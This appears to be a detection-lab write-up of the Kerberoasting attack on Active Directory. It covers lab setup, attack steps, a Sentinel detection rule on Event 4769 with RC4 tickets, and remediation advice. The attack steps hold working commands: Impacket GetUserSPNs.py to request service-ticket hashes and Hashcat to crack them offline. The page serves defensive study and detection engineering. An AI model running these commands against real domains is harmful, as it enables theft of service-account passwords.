



# Kerberoasting
**MITRE ATT&CK:** [T1558.003](https://attack.mitre.org/techniques/T1558/003/) — Steal or Forge Kerberos Tickets: Kerberoasting  
**Platform:** Active Directory  
**Tactic:** Credential Access

## Description
Kerberoasting is an attack where an attacker targets service accounts by:
1. Enumerating service accounts with Service Principal Names (SPNs) from the domain controller.
2. Requesting a Kerberos ticket-granting service (TGS) ticket for each SPN using the attacker's existing TGT. The ticket is usually requested with RC4 encryption to make offline cracking feasible.
3. Brute-forcing the password hash in the TGS to recover the plaintext password of the service account.

> [!TIP]
> Service accounts allow applications (e.g. SQL Server, IIS) to authenticate and access resources without human interaction. They are often over-privileged and have long-lived, infrequently rotated passwords — making them attractive targets.
> Some use cases are:
> - Resource access (Backup, audit logs)
> - Service identity for authentication to an app/service (e.g. allowing user accounts to access SQL server via Kerberos authentication)

## Assumptions
The attacker is inside the AD network with an authenticated domain user account.

## Environment Setup
This scenario requires the Active Directory infrastructure. See [`infrastructure/ad/ansible`](../../../infrastructure/ad/ansible/) for provisioning a new instance - specifically the `win_createdomain` and `win_joindomain` tasks.

For threat detection in Sentinel, ensure that the Domain Controller instance is connected to Azure Arc and Data Collection Rule is configured. See [`infrastructure/ad/ansible`](../../../infrastructure/ad/ansible/) for connecting to Azure Arc - specifically the `win_azurearc` task and [`infrastructure/azure/terraform`](../../../infrastructure/azure/terraform/) for creating Data Collection Rule - specifically the `arc` module.

Kerberoasting requires an account with SPN set in Active Directory. Create a user and run:
```cmd
setspn -s http/<spn_fqdn> <domain.com>\\<sqlsvc>
```

## Attack steps
1. Using [Impacket's GetUserSPNs.py](https://github.com/fortra/impacket) to enumerate and request TGS tickets from service accounts with SPNs.
```bash
GetUserSPNs.py <domain.com>/<user>:<password> -dc-ip <1.2.3.4> -request
```
This returns RC4-encrypted TGS hashes in Hashcat-compatible format (`$krb5tgs$23$...`).



2. From the password hash obtained, get the plaintext password using Hashcat.
```bash
hashcat -m 13100 spn_hashes.txt /usr/share/wordlists/rockyou.txt
```
`-m 13100` targets Kerberos 5 TGS-REP etype 23 (RC4-HMAC).



## Detections

Attackers deliberately request RC4-encrypted tickets (0x17) because AES-encrypted tickets cannot be cracked offline. This makes the encryption type a reliable detection signal.

**Event to monitor:** Windows Security Event ID 4769 (Kerberos service ticket requested)  
**Filter for:** `TicketEncryptionType = 0x17` AND `ServiceName` not ending in `$` (computer accounts)



## Remediation
- Enforce AES encryption on service accounts (disable RC4 in the domain)
- Ensure service account passwords are long (25+ characters) and rotated regularly
- Audit and remove unnecessary SPNs

## References
- [MITRE ATT&CK T1558.003](https://attack.mitre.org/techniques/T1558/003/)
- [Impacket GetUserSPNs](https://github.com/fortra/impacket)